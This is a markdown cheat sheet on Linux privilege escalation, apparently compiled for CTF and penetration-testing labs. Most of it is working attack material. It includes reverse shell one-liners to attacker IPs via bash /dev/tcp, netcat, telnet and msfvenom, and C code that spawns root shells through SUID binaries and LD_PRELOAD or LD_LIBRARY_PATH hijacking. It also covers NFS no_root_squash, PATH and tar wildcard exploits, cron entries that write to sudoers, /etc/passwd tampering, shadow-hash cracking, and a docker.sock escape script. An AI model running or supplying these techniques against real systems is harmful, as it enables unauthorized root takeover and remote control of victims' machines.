

Linux Privilege Escalation

https://gtfobins.github.io/
https://chmod-calculator.com/

## Cheat sheets
https://0xsp.com/offensive/offensive-cheatsheet
https://cheatography.com/blacklist/cheat-sheets/linux-windows-privilege-escalation/
https://github.com/rmusser01/Infosec_Reference/blob/master/Draft/Cheat%20sheets%20reference%20pages%20Checklists%20-/Linux/cheat%20sheet%20Basic%20Linux%20Privilege%20Escalation.txt
https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html

## **USER IDs**

**Real, Effective, & Saved UID/GID**

A user’s effective ID is normally equal to their real ID, however when executing a process as another user, the effective ID is set to that user’s

real ID.

The effective ID is used in most access control decisions to verify a user, and commands such as whoami use the effective ID.

Finally, the saved ID is used to ensure that SUID processes can temporarily switch a user’s effective ID back to their real ID and back again without losing track of the original effective ID.

**Print real and effective user / group IDs:**

# id

uid=1000(user) gid=1000(user) euid=0(root) egid=0(root)

groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)

* * *

## **SPAWN SHELL**
https://sentrywhale.com/documentation/reverse-shell
https://medium.com/@pentest_it/ncat-cheatsheet-ddc5f07d8533

### Simple bash command

> bash -i >& /dev/tcp/10.10.14.10/3333 0>&1

-i: Ignore case distinctions

### Reverse shell in FreeBSD

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet 172.18.0.2 8080 > /tmp/f

### Nc.traditional

>nc.traditional -e /bin/sh '10.10.14.10' '3333'
nc.traditional -e /bin/sh 10.10.14.10 3333

### Bin/bash copy

Create a copy of the /bin/bash executable file (I usually rename it rootbash), make sure it is owned by the root user, and has the SUID bit set.

A root shell can be spawned by simply executing the rootbash file with the -p command line option.

>cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash

>/tmp/rootbash -p

### Compile C Shell

There may be instances where some root process executes another process which you can control. In these cases, the following C code, once compiled, will spawn a Bash shell running as root:

>int main() {
    setuid(0);
    system("/bin/bash -p");
}

Compile using:

> gcc <filename.c> -o <name>

### Msfvenom

> msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf

### SUDO

>sudo /bin/bash
sudo -s
sudo -i

* * *

## **ENUMERATION SCRIPTS**

### LSE.sh

./lse.sh

./lse.sh -l 1 -i

-l : to get more information. 1 is for more and 2 is much more
-i : to avoid the script asking for the user password

### LINUX EXPLOIT SUGGESTER

./linux-exploit-suggester-2.pl -k 2.6

-k: kernel version

* * *

## **MANUAL ENUMERATION**

**Show installed packages**

dpkg -l

**Show processes**

ps -ef
ps -aux

**Check history files**

cat ~/.bash_history
cat ~/.*history | less

### NFS

NFS (Network File System) is a popular distributed file system.

NFS shares are configured in the /etc/exports file. Remote users can mount shares, access, create, modify files.

By default, created files inherit the remote user’s id and group id (as owner and group respectively), even if they don’t exist on the NFS server.

Show the NFS server’s export list:

>$ showmount -e <target>

Similar Nmap script:

>$ nmap –sV –script=nfs-showmount <target>

Mount an NFS share:

>$ mount -o rw,vers=2 <target>:<share> <local_directory>

**no_root_squash**

no_root_squash is an NFS configuration option which turns root squashing off.

When included in a writable share configuration, a remote user who identifies as “root” can create files on the NFS share as the local root user.

Check the contents of /etc/exports for shares with the no_root_squash option:

$ cat /etc/exports
...
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

Confirm that the NFS share is available for remote mounting:

$ showmount -e 192.168.1.25
Exports list on 192.168.1.25:
/tmp

***See exploit below...***
***
***

### FIND

**Find all writable files in /etc:**

$ find /etc -maxdepth 1 -writable -type f

**Find all readable files in /etc:**

$ find /etc -maxdepth 1 -readable -type f

**Find all directories which can be written to:**

$ find / -executable -writable -type d 2> /dev/null

**Find all file with the SUID or SGID bits set:**
**
**
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;

OR

find / -type f -perm /4000 -ls l 2>/dev/null;

### SUDO

sudo -l

Programs run through sudo can inherit the environment variables from the user’s environment.

In the **/etc/sudoers** config file, if the **env_reset option** is set, sudo will run programs in a new, minimal environment.

The **env_keep option** can be used to keep certain environment variables from the user’s environment.

The configured options are displayed when running sudo -l

**** Check if **LD_PRELOAD** or **LD_LIBRARY_PATH** is configured or not. ***
***
***
***
***

### LDD

***
***
Check the shared libraries of a program
***
***
ldd /path/to/bin
***
***
***
***

### WATCH

***
***
Monitor the content of a directory.

watch -n 1 ls -l /tmp
***
***
***
***
***
***

### SHELL VERSION

***
***

If /bin/sh is under 4.2-048, it is possible to defiune user functions with an absolute path name.

These functions can be exported so that subprocesses have access to them, and the functions can take precedence over the actual executable being called.

/bin/sh --version
bash --version
***
***

Then we need to find a program that execute the shell with root privilege and try to exploit.

***
***
***Example of exploit (suid have to be set on the bin)***
***
***
$ ltrace /usr/local/bin/suid-env2 2>&1 | grep service
system("/usr/sbin/service apache2 start"

This reveals that the system function is being used to execute the /usr/sbin/service program.

Verify the version of Bash is lower than 4.2-048:

$ bash --version
GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)

Create a Bash function with the name “/usr/sbin/service” and export the function:

$ function /usr/sbin/service { /bin/bash -p; }
$ export –f /usr/sbin/service

Execute the SUID file for a root shell:

$ /usr/local/bin/suid-env2
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root) ...
***
***
***
***

***
***

* * *

## **EXPLOIT NO_ROOT_SQUASH**

Create a mount point on your local machine and mount the /tmp NFS share:

# mkdir /tmp/nfs

# mount -o rw,vers=2 192.168.1.25:/tmp /tmp/nfs

Using the root user on your local machine, generate a payload and save it to the mounted share:

# msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o

/tmp/nfs/shell.elf

Make sure the file has the SUID bit set, and is executable by everyone:

# chmod +xs /tmp/nfs/shell.elf

On the target machine, execute the file to get a root shell:

$ /tmp/shell.elf
bash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root)

* * *

## **WILDCARDS**

***
***
***
***

When a wildcard character (*) is provided to a command as part of an argument, the shell will first perform filename expansion (also known as

globbing) on the wildcard. This process replaces the wildcard with a space-separated list of the file and directory names in the current  directory. An easy way to see this in action is to run the following command from your home directory:

$ echo *

Since filesystems in Linux are generally very permissive with filenames, and filename expansion happens before the command is executed, it is possible to pass command line options (e.g. -h, --help) to commands by creating files with these names.

The following commands should show how this works:

$ ls *
% touch ./-l
$ ls *
***
***
***
***
***
***

* * *

## **EXPLOIT LD_LIBRARY_PATH OPTION**

The LD_LIBRARY_PATH environment variable contains a set of directories where shared libraries are searched for first.

The ldd command can be used to print the shared libraries used by a program:

$ ldd /usr/sbin/apache2

By creating a shared library with the same name as one used by a program, and setting LD_LIBRARY_PATH to its parent directory, the program will load our shared library instead.

### Enumeration

Run ldd against the apache2 program file

$ ldd /usr/sbin/apache2
linux-vdso.so.1 => (0x00007fff063ff000)
...
libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f7d4199d000)
libdl.so.2 => /lib/libdl.so.2 (0x00007f7d41798000)
libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f7d41570000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7d42e84000)

Hijacking shared objects using this method is hit or miss. Choose one from the list and try it (libcrypt.so.1 seems to work well).

### Privilege Escalation

Create a file (library_path.c) with the following contents

#include <stdio.h>
#include <stdlib.h>
static void hijack() __attribute__((constructor));
void hijack() {
unsetenv("LD_LIBRARY_PATH");
setresuid(0,0,0);
system("/bin/bash -p");
}

Compile library_path.c into libcrypt.so.1:

$ gcc -o libcrypt.so.1 -shared -fPIC library_path.c

Run apache2 using sudo, while setting the LD_LIBRARY_PATH environment variable to the current path (where we compiled library_path.c)

$ sudo LD_LIBRARY_PATH=. apache2

# id

uid=0(root) gid=0(root) groups=0(root)

* * *

## **EXPLOIT LD_PRELOAD OPTION**

**LD_PRELOAD** is an environment variable which can be set to the path of a shared object (.so) file.

When set, the shared object will be loaded before any others. By creating a custom shared object and creating an init() function, we can execute code as soon as the object is loaded.

### Limitations:

- LD_PRELOAD will not work if the real user ID is different  from the effective user ID.
- sudo must be configured to preserve the LD_PRELOAD
- environment variable using the env_keep option.

### Exploitation

Create a file (preload.c) with the following contents

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setresuid(0,0,0);
system("/bin/bash -p");
}

Compile preload.c to preload.so:

$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c

Run any allowed program using sudo, while setting the LD_PRELOAD environment variable to the full path of the preload.so file:

$ sudo LD_PRELOAD=/tmp/preload.so apache2

# id

uid=0(root) gid=0(root) groups=0(root)

* * *

## **PORT FORWARDING**

If a service is not accessible from the outside, then we can make a port forwarding

### SSH Forwarding

ssh -R <local-port>:127.0.0.1:<service-port> <username>@<local-machine>

ssh -R 2222:127.0.0.1:3306 ghost@10.10.14.209

Then on Kali we can access mysql via cli like this

mysql -u root -h 127.0.0.1 -P 2222

* * *

## **Crack Shadow Hash**

If we can the /etc/shadow file, then the first line is the root hash.

$ head -n 1 /etc/shadow

root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::

In that case, the hash is this:

$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0

Crack with john

john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

* * *

## **EXPLOIT PASSWD**

The root account in /etc/passwd is usually configured like this:

root:x:0:0:root:/root:/bin/bash

The “x” in the second field instructs Linux to look for the password hash in the /etc/shadow file.

### First way

In some versions of Linux, it is possible to simply delete the “x”, which Linux interprets as the user having no password:

root::0:0:root:/root:/bin/bash

### Second way

Generate a password hash for the password “password” using openssl:

$ openssl passwd "password"
L9yLGxncbOROc

Edit the /etc/passwd file and enter the hash in the second field of the root user row:

root:L9yLGxncbOROc:0:0:root:/root:/bin/bash

* * *

## ***Create a service as root to get a reverse shell***

https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49

SUID should be set on systemctl bin.

Create a file for the service

Start the service

systemctl enable /path/to/service/file
systemctl start service name

* * *

## ***Inspect socket connection***

ss -tulpn

* * *

## ***Nmap SUID set***

https://gtfobins.github.io/gtfobins/nmap/#limited-suid

nmap --interactive
!sh

* * *

## ***Privesc with TAR***

https://www.khalidalnajjar.com/hacking-jeff-writeup-thm/

If we create checkpoint files in the folder, tar will use these files to know what it has to do after compressing the files in the folder.

Create a linux shell with msfvenom
msfvenom -p cmd/unix/reverse_python  lhost=YOURIP lport=1234 R > shell.sh

Here we use checkpoint to execute the shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"

echo "" > --checkpoint=1

* * *

## ***Privesc with CRONTAB***

https://rfc191852608710.wordpress.com/2020/07/11/tryhackme-write-up-jeff/
https://materials.rangeforce.com/tutorial/2020/04/17/Cron-Privilege-Escalation/

If we can run sudo with a user than we try to create a new task to get a shell or the root file.

Get cron task file for the actual user

sudo crontab -e

Adding a new taks

* * * * * /bin/cp /root/root.txt /tmp/root.txt; /bin/chmod 777 /tmp/root.txt >/dev/null 2>&1

OR

*/1 * * * * echo "jeff ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers

OR

*/1 * * * * /usr/bin/sudo /usr/bin/bash /tmp/shell.sh

* * *

## ***File descriptors***

https://unix.stackexchange.com/questions/42728/what-does-31-12-23-do-in-a-script

***
***

0 - stdin
1 - stdout
2 - stderr

So each of these numbers in your command refer to a file descriptor. You can either redirect a file descriptor to a file with > or redirect it to another file descriptor with >&

The 3>&1 in your command line will create a new file descriptor and redirect it to 1 which is STDOUT. Now 1>&2 will redirect the file descriptor 1 to STDERR and 2>&3 will redirect file descriptor 2 to 3 which is STDOUT.

So basically you switched STDOUT and STDERR, these are the steps:

1. Create a new fd 3 and point it to the fd 1

2. Redirect file descriptor 1 to file descriptor 2. If we wouldn't have saved the file descriptor in 3 we would lose the target.

3. Redirect file descriptor 2 to file descriptor 3. Now file descriptors one and two are switched.

Now if the program prints something to the file descriptor 1, it will be printed to the file descriptor 2 and vice versa.

* * *

## **DOCKER PRIVESC **[FELINE](https://www.hackthebox.eu/home/machines/profile/274)

https://dejandayoff.com/the-danger-of-exposing-docker.sock/
https://dreamlab.net/en/blog/post/abusing-dockersock-exposure/
https://cert.litnet.lt/2016/11/owning-system-through-an-exposed-docker-engine/

If we are inside a docker, then we can try to escape via different ways.

### DOCKER SOCK EXPOSED

**Check if it is exposed **

curl -s --unisx-socket /var/run/docker.sock http://localhost/images/json

**Exploit localy**

- Create a new docker
- Execute a command when the docker is started

/* Exploit.sh */

#!/bin/bash

cmd="[\"/bin/sh\",\"-c\",\"chroot /tmp sh -c \\\"bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'\\\"\"]"

curl -s -X POST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$cmd,\"Binds\": [\"/:/tmp:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create?name=ghost1_root

curl -s -X POST --unix-socket /var/run/docker.sock "http://localhost/containers/ghost1_root/start"

* * *

## **BINARIES TOOLS**

If a program tries to execute another program, the name of that program is likely embedded in the executable file as a string. We can run strings on the executable file to find strings of characters.

We can also use strace to see how the program is executing. Another program called ltrace may also be of use.

### STRINGS

strings /path/to/file

### LTRACE

ltrace examplebin

### STRACE

When a program is executed, it will try to load the shared objects it requires.

By using a program called **strace**, we can track these system calls and determine whether any shared objects were not found. If we can write to the location the program tries to open, we can create a shared object and spawn a root shell when it is loaded.

strace /usr/local/bin/suid-so
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"

strace -v -f -e execve <command> 2>&1 | grep exec

### EXPLOIT VULNERABLE PROGRAM

Find SUID/SGID files on the target:

$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;
2> /dev/null
...
-rwsr-sr-x 1 root staff 6883 May 14 2017 /usr/local/bin/suid-env
...

The suid-env file should execute with root user permissions.

Run strings on the SUID file:

$ strings /usr/local/bin/suid-env
/lib64/ld-linux-x86-64.so.2
...
service apache2 start

The file could be trying to run the service program without a full path.

We can verify this with strace:

$ strace -v -f -e execve /usr/local/bin/suid-env 2>&1 | grep service
[pid 14395] execve("/bin/sh", ["sh", "-c", "service apache2 start"],
...

Optionally, we can also verify with ltrace:

$ ltrace /usr/local/bin/suid-env 2>&1 | grep service
system("service apache2 start"

This reveals that the system function is being used to execute the service program.

Create a file service.c with the following contents:

int main() {
setuid(0);
system("/bin/bash -p");
}

Compile service.c into a file called service:

$ gcc -o service service.c

Prepend the current directory (or where the new service executable is located) to the PATH variable, and execute the SUID file for a root shell:

$ PATH=.:$PATH /usr/local/bin/suid-env
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root) ...

* * *

## **LOG FILES**

https://www.osdfcon.org/presentations/2019/Ali-Hadi_Performing-Linux-Forensic-Analysis-and-Why-You-Should-Care.pdf

https://www.loggly.com/ultimate-guide/using-journalctl/
https://materials.rangeforce.com/tutorial/2020/04/16/Systemd-Journal/

https://www.digitalocean.com/community/tutorials/how-to-troubleshoot-common-apache-errors

https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/security_guide/sec-audit_record_types

In linux, the group **ADM **own the permission to look inside the log folders. (/var/log/.....)

Interesting logs can be find in apache2 and mysql folders.

### For system logs, we can use journalctl to filters the logs.

**Example:**

journalctl _UID=1002 --since 2020-02-29 --until today

To know are the _UID available we can use -F _UID. It works with every type of filters like _GID etc...

https://www.freedesktop.org/software/systemd/man/systemd.journal-fields.html

journalctl -F <_EXE or _UID or _GID etc...>

### For audit logs we can use AUSEARCH

https://blog.selectel.com/auditing-system-events-linux/

https://www.cyberciti.biz/tips/linux-audit-files-to-see-who-made-changes-to-a-file.html

ausearch type=tty

ausearch -ui 33

Don't mix the commands together because it can not output the proper results.

Here is a list of event type:

https://docs.oracle.com/cd/E37100_01/doc.121/e27777/lin_eventdata.htm#SIGAU41047

* * *

**HEX**
**
**
**XXD**
**
**
